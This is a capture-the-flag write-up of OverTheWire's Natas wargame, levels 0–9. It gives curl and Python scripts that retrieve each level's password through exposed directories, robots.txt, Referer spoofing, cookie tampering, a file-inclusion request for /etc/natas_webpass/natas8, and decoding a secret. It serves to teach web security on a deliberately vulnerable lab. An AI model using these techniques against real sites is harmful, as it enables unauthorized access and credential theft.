 * Natas
** Introduction
This is a writeup for the [[https://overthewire.org/wargames/][overthewire.org]] war game Natas. To start a level 
visit the URL http://natasX.natas.labs.overthewire.org, and login with 
username: natasX and the password found in the previous level, where X is the 
level number.

** Level 0
View the source page and find the password:

#+BEGIN_SRC shell
curl -u natas0:natas0 "http://natas0.natas.labs.overthewire.org/" | grep natas1
#+END_SRC

#+RESULTS:
: <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
Result:
#+BEGIN_SRC 
: <!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
#+END_SRC

** Level 1
View the source page by using a short cut key (for me <C-u>, Ctrl+u):

#+BEGIN_SRC shell
curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto  "http://natas1.natas.labs.overthewire.org/" | grep natas2
#+END_SRC

#+RESULTS:
: <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
Result:
#+BEGIN_SRC 
: <!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
#+END_SRC

** Level 2
Again view the source page. There is a line with a link to an image 

#+BEGIN_SRC 
<img src="files/pixel.png">
#+END_SRC

This links to "http://natas2.natas.labs.overthewire.org/files/pixel.png", note 
the /files/pixels.png. Which means it might be possible to explorer the files 
'files' directory. Exploring "http://natas2.natas.labs.overthewire.org/files/" 
it shows that there it another file called 'users.txt' which contains the 
password for the next level.

#+BEGIN_SRC shell
curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi "http://natas2.natas.labs.overthewire.org/files/users.txt" | grep natas3
#+END_SRC

#+RESULTS:
: natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
Result:
#+BEGIN_SRC 
: natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
#+END_SRC

** Level 3
View the source and find the line

#+BEGIN_SRC 
<!-- No more information leaks!! Not even Google will find it this time... -->
#+END_SRC

which hints at the 'robots.txt' file that contains the directories webcrawlers are not supossed to visit. From the 'robots.txt' we get the directory '/s3cr3t/' which contains the 'users.txt' file with the password for natas4.

#+BEGIN_SRC shell
curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 "http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt" | grep natas4
#+END_SRC

#+RESULTS:
: natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
Result:
#+BEGIN_SRC 
: natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
#+END_SRC

** Level 4
To get access to the password we need to come from the natas5 website as is 
metioned on the website when first loging in. 
#+BEGIN_SRC 
Access disallowed. You are visiting from "" while authorized users should come 
only from "http://natas5.natas.labs.overthewire.org/"
#+END_SRC
It is possible to simulate this by setting the referer in the header of the get
request to the natas5 website.

First define a function that can find the password in the raw html text:

#+NAME: 373e98c9-ce75-4f43-921a-289dfacae023
#+BEGIN_SRC ein-python :session :async :results output 

def find_pswd(text):
    # find the line with the password in the html text
    lines = text.split('\n')
    bools = list(map(lambda x : "password" in x, lines))
    for (b,line) in zip(bools,lines):
        if b:
            return line

#+END_SRC

#+RESULTS: 373e98c9-ce75-4f43-921a-289dfacae023

Now the code that change the referer to natas5:

#+NAME: c24a72b1-d2b5-4377-8762-815c67a7d6cd
#+BEGIN_SRC ein-python :session :async :results output 
# The code is written in python
import requests
from requests.auth import HTTPBasicAuth

user = "natas4"
pswd = "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ"
url = "http://natas4.natas.labs.overthewire.org/"
headers = {'referer': 'http://natas5.natas.labs.overthewire.org/'}

# get request with the referer set to natas5
r = requests.get(url, headers=headers, auth=HTTPBasicAuth(user,pswd))

print(find_pswd(r.text))
#+END_SRC

#+RESULTS: c24a72b1-d2b5-4377-8762-815c67a7d6cd
: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Result:
#+BEGIN_SRC 
: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
#+END_SRC

** Level 5
After logging in the web page shows:

#+BEGIN_SRC 
Access disallowed. You are not logged in
#+END_SRC

Lets inspect the headers to see what is happening

#+NAME: 575ee3fe-cc0f-4b76-bf91-927f3fe97c0c
#+BEGIN_SRC ein-python :session :async :results output
# The code is written in python
import requests
from requests.auth import HTTPBasicAuth

user = "natas5"
pswd = "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"
url = "http://natas5.natas.labs.overthewire.org/"

r = requests.get(url, auth=HTTPBasicAuth(user,pswd))
print(r.headers)

#+END_SRC

#+RESULTS: 575ee3fe-cc0f-4b76-bf91-927f3fe97c0c
: {'Date': 'Sat, 05 Mar 2022 14:18:12 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}

Result:
#+BEGIN_SRC 
: {'Date': 'Sat, 05 Mar 2022 10:28:27 GMT', 'Server': 'Apache/2.4.10 (Debian)', 'Set-Cookie': 'loggedin=0', 'Vary': 'Accept-Encoding', 'Content-Encoding': 'gzip', 'Content-Length': '367', 'Keep-Alive': 'timeout=5, max=100', 'Connection': 'Keep-Alive', 'Content-Type': 'text/html; charset=UTF-8'}
#+END_SRC

The output show that the the Set-cookie loggedin=0, if that is changed to 
loggedin=1 then that should give access to the password.

#+NAME: 35846085-d24d-4f0a-beb1-6538bb4b9471
#+BEGIN_SRC ein-python :session :async :results output

cookies = {'loggedin': '1'}

# get request with the cookie set loggedin=1
r = requests.get(url, cookies=cookies, auth=HTTPBasicAuth(user,pswd))

# find the line with the password in it
print(find_pswd(r.text))

#+END_SRC

#+RESULTS: 35846085-d24d-4f0a-beb1-6538bb4b9471
: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>

Result:
#+BEGIN_SRC 
: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1</div>
#+END_SRC

** Level 6
After logging in we are prompted to input a secret. The source contains the line:
#+BEGIN_SRC 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
#+END_SRC
Then going to the url view-source:http://natas6.natas.labs.overthewire.org/index-source.html contains:
#+BEGIN_SRC 
include "includes/secret.inc";
#+END_SRC
follow this to the url http://natas6.natas.labs.overthewire.org/includes/secret.inc, which reveals the secret: "FOEIUWGHFEEUHOFUOIU"

#+NAME: 357e147d-fa57-479d-bffb-c2131c2736b1
#+BEGIN_SRC ein-python :session :async :results output

user = "natas6"
pswd = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
url = "http://natas6.natas.labs.overthewire.org/"
post_data = {"secret": "FOEIUWGHFEEUHOFUOIU", "submit": "submit"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=post_data)

print(find_pswd(r.text))

#+END_SRC
Result:
#+BEGIN_SRC 
: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
#+END_SRC

** Level 7
The source page says:
#+BEGIN_SRC 
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
#+END_SRC

and there are two links for 'home' and 'about', 'index.php?page=Home' and 'index.php?page=About respectively. combining one of these links with the path to the password file will give access to the password.

#+NAME: 357e147d-fa57-479d-bffb-c2131c2736b1
#+BEGIN_SRC ein-python :session :async :results output

user = "natas7"
pswd = "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9"
url = "http://natas7.natas.labs.overthewire.org/"
location = "/index.php?page=/etc/natas_webpass/natas8"

# get request with the referer set to natas5
r = requests.post(url+location, auth=HTTPBasicAuth(user,pswd))

print(r.text.split('\n')[-7])

#+END_SRC

#+RESULTS: 357e147d-fa57-479d-bffb-c2131c2736b1
: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
Result:
#+BEGIN_SRC 
: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
#+END_SRC

** Level 8
The source page again has a link to:
#+BEGIN_SRC 
index-source.html
#+END_SRC
which reveals an encoded secret:
#+BEGIN_SRC 
3d3d516343746d4d6d6c315669563362
#+END_SRC
it is encoded with this function:
#+BEGIN_SRC 
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
#+END_SRC
All we need to do is reverse this function on the given encoded secret:
#+NAME: b1f4b49f-258f-4796-97f0-04354b76dbc7
#+BEGIN_SRC ein-python :session :async :results output

import base64

secret = "3d3d516343746d4d6d6c315669563362"
# converst hex to binary
binary_secret = bin(int(secret, 16))
# convert the bits to a string of chars
char_secret = ''.join(chr(int(binary_secret[i*8:i*8+8],2)) for i in range(len(binary_secret)//8))
# reverse the string
reverse_secret  = char_secret[::-1]
# base64 decode the string
#decoded_secret = base64.b64decode(reverse_secret.encode("ascii")).decode("ascii")
decoded_secret = base64.b64decode(reverse_secret).decode("ascii")
print("The decoded secret is: " + decoded_secret)

#+END_SRC

#+RESULTS: b1f4b49f-258f-4796-97f0-04354b76dbc7
: The decoded secret is: oubWYf2kBq
Result:
#+BEGIN_SRC 
: The decoded secret is: oubWYf2kBq
#+END_SRC

#+NAME: ffed605a-7f2d-476f-916f-4274eeb93861
#+BEGIN_SRC ein-python :session :async :results output

user = "natas8"
pswd = "DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe"
url = "http://natas8.natas.labs.overthewire.org/"
post_data = {"secret": "oubWYf2kBq", "submit": "submit"}

# get request with the referer set to natas5
r = requests.post(url, auth=HTTPBasicAuth(user,pswd), data=post_data)

print(find_pswd(r.text))

#+END_SRC

#+RESULTS: ffed605a-7f2d-476f-916f-4274eeb93861
: Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
Result:
#+BEGIN_SRC 
: Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
#+END_SRC
